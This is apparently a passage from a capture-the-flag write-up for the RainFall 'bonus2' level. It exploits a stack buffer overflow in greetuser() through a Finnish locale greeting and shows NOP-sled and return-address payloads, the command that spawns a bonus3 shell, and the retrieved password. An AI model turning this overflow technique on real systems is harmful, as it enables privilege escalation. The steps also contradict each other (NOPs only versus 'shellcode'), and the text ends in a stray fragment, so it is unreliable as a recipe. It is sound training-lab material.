 We need:
* **argv[1]**: 40 bytes of NOPs (simpler than embedding shellcode here)
* **argv[2]**: Padding (18 bytes) + return address (4 bytes)

```bash
argv[1] = "\x90" * 40
argv[2] = "a" * 18 + "\xcb\xf8\xff\xbf"
```

### 5) Execute the exploit

```bash
bonus2@RainFall:~$ LANG=fi ./bonus2 $(python -c 'print"\x90" * 40') $(python -c 'print"a" * 18 + "\xcb\xf8\xff\xbf"')
Hyvää päivää ����������������������������������������aaaaaaaaaaaaaaaaaa����
$ id
uid=2012(bonus2) gid=2012(bonus2) euid=2013(bonus3) egid=100(users) groups=2013(bonus3),100(users),2012(bonus2)
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ 

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C source)

---

## Conclusion

This binary is exploitable through a buffer overflow in the `greetuser()` function. By using the Finnish (`LANG=fi`) language setting, the greeting prefix is long enough to allow an overflow when combined with the concatenated arguments. We placed shellcode in argv[1], calculated the precise offset to overwrite the return address (18 bytes into argv[2]), and redirected execution to our shellcode to spawn a shell with bonus3 privileges.\xcb\xf8\xff\xbf'
```
